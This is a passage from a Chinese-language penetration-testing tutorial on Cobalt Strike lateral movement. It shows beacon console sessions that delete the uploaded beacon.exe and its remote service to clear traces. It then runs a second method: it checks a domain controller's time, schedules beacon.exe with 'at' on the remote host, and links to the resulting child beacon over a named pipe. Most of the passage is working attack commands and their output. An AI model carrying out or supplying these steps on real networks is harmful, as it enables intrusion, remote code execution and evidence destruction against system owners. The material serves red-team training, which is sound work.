 4、清除痕迹与服务

```
shell sc \\host delete name
```

```powershell
beacon> shell del beacon.exe
[*] Tasked beacon to run: del beacon.exe
[+] host called home, sent: 57 bytes

beacon> shell del \\wintest\C$\windows\temp\beacon.exe
[*] Tasked beacon to run: del \\wintest\C$\windows\temp\beacon.exe
[+] host called home, sent: 83 bytes

beacon> shell sc \\wintest delete beacon
[*] Tasked beacon to run: sc \\wintest delete beacon
[+] host called home, sent: 69 bytes
[+] received output:
[SC] DeleteService 成功
```

**执行文件（方法二）**
1、生成 Windows EXE 并上传，注意这里生成的 EXE 和方法一生成的 EXE 是不一样的类型，这里生成的是 Windows EXE，不是方法一中的Windows Service EXE
2、找到目标系统上的时间

```powershell
shell net time \\host
```

```powershell
beacon> shell net time \\windc
[*] Tasked beacon to run: net time \\windc
[+] host called home, sent: 49 bytes
[+] received output:
\\windc 的当前时间是 2020/8/30 14:54:09
命令成功完成。
```

3、创建一个计划任务

```powershell
shell at \\host HH:mm C:\path\to\bad.exe
```

```powershell
beacon> shell at \\windc 15:00 C:\windows\temp\beacon.exe
[*] Tasked beacon to run: at \\windc 15:00 C:\windows\temp\beacon.exe
[+] host called home, sent: 76 bytes
[+] received output:
新加了一项作业，其作业 ID = 1
```

4、当计划任务被执行时，执行 link hostname 即可上线主机

```powershell
beacon> link windc
[*] Tasked to link to \\windc\pipe\msagent_d76a
[+] host called home, sent: 34 bytes
[+] established link to child beacon: 192.168.175.144
```
